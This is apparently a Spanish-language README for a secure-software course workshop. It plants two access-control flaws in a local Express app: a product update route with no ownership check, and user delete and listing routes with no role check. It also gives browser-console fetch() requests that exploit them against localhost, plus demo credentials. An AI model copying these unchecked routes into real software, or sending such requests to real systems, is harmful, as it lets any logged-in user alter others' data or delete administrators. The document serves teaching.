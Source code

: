 # Taller_3_Software_seguro
Presentación del taller 3, Desarrollo de Software Seguro, elaborado por **Jonathan Martelo**

---

## Escenario de vulnerabilidad 1

Se procede a modificar el código de **`products.js`** colocando el siguiente código en el componente de actualización:

```javascript
// Actualizar producto
// Reemplazar el endpoint PUT en backend/routes/products.js con este código vulnerable
router.put('/:id', verifyToken, (req, res) => {
 const { name, description } = req.body;
 const productId = req.params.id;

 // ¡VULNERABILIDAD! No se verifica si el usuario autenticado (req.user.id)
 // es el propietario del producto (productId).
 // Cualquier usuario autenticado puede modificar cualquier producto si conoce su ID.
 const updateSql = 'UPDATE products SET name =?, description =? WHERE id =?';
 db.run(updateSql, [name, description, productId], function(err) {
   if (err) {
     return res.status(500).json({ error: err.message });
   }
   if (this.changes === 0) {
     return res.status(404).json({ error: 'Producto no encontrado.' });
   }
   res.json({ message: 'Producto actualizado con éxito (¡inseguro!).' });
 });
});
```

Posteriormente se siguen los siguientes pasos:

1. Reiniciar el backend precionando `Ctrl + c` y se ejecuta el comando:

   ```bash
   node server.js
   ```

2. Iniciar sesión con las siguientes credenciales:

   | username | password            |
   |----------|---------------------|
   | admin    | admin_password_123  |

3. Acceder a la consola del navegador presionando la tecla **F12**.

4. Ejecutar los siguientes comandos:

   - **Comando**  
     *Allow paste* (en caso de que el navegador no permita pegar el código a copiar).

   - **Comando principal**  

     ```javascript
     fetch('http://localhost:3000/api/products/1', {
       method: 'PUT',
       headers: {
         'Content-Type': 'application/json'
       },
       credentials: 'include', // Envía la cookie de sesión del admin
       body: JSON.stringify({
         name: 'Producto Hackeado',
         description: 'Este producto ha sido modificado por otro usuario.'
       })
     })
     .then(res => res.json())
     .then(data => console.log(data));
     ```

5. Recargar la página e ingresar nuevamente con el perfil de **admin**.

Con estos pasos debería aparecer un producto con la siguiente información:

> **Producto Hackeado**  
> **Este producto ha sido modificado por otro usuario.**  
> **Propietario: user**

---

## Escenario de vulnerabilidad 2

Para este escenario no se modifica un codigo sino que se crea el documento **`users.js`** con el siguiente codigo 

```javascript
// Archivo: backend/routes/users.js
const express = require('express');
const router = express.Router();
const db = require('../database/database');
const { verifyToken } = require('../middleware/authMiddleware');

// Endpoint para eliminar un usuario (vulnerable a escalada de privilegios)
router.delete('/:id', verifyToken, (req, res) => {
  const userIdToDelete = req.params.id;

  // Aquí pasamos el parámetro userIdToDelete como segundo argumento
  const sql = 'DELETE FROM users WHERE id = ?';
  db.run(sql, [userIdToDelete], function(err) {
    if (err) return res.status(500).json({ error: err.message });
    if (this.changes === 0) {
      return res.status(404).json({ error: 'Usuario no encontrado.' });
    }
    res.json({ message: `Usuario con ID ${userIdToDelete} eliminado con éxito.` });
  });
});

module.exports = router;

//Update, este es un codigo para hacer un select en la lista user, con este podremos ver realmente el id a eliminar con el ataque del codigo vulnerable
//Podremos hacer el select visitando el link http://localhost:3000/api/users

router.get('/', (req, res) => {
  db.all('SELECT id, username, role FROM users', [], (err, rows) => {
    if (err) return res.status(500).json({ error: err.message });
    res.json(rows);
  });
});

```

Posteriormente se siguen los siguientes pasos:

1. Reiniciar el backend precionando `Ctrl + c` y se ejecuta el comando:

   ```bash
   node server.js
   ```

2. Iniciar sesión con las siguientes credenciales:

   | username | password            |
   |----------|---------------------|
   | user     |  user_password_123  |

3. Acceder a la consola del navegador presionando la tecla **F12**.

4. Acceder al link **`http://localhost:3000/api/users`** y valida los usuarios disponibles, deberia de verse una pequeña lista con 2 usuarios, anota o toma el usuario que vamos a eliminar, deberia de imprimir el siguiente resultado 

>[
>   {
>    "id": 1,
>    "username": "admin",
>    "role": "admin"
>  },
>  {
>    "id": 2,
>    "username": "user",
>    "role": "user"
>  }
>]

5. Ejecutar los siguientes comandos:

   - **Comando**  
     *Allow paste* (en caso de que el navegador no permita pegar el código a copiar).

   - **Comando principal**  

     ```javascript
     fetch('http://localhost:3000/api/users/1', {
      method: 'DELETE',
      credentials: 'include' // Envía la cookie de sesión del 'user'
     })
     .then(res => res.json())
     .then(data => console.log(data));
     ```

6. Recargar la página e ingresar nuevamente con el perfil de **admin**.

Con estos pasos debería de generar fallo ya que el usuario **admin** ya no existe, para validar correctamente que este haya sido eliminado tenemos que visitar nuevamente el link **`http://localhost:3000/api/users`** y ahora vera este resultado 

>[
>  {
>    "id": 2,
>    "username": "user",
>    "role": "user"
>  }
>]

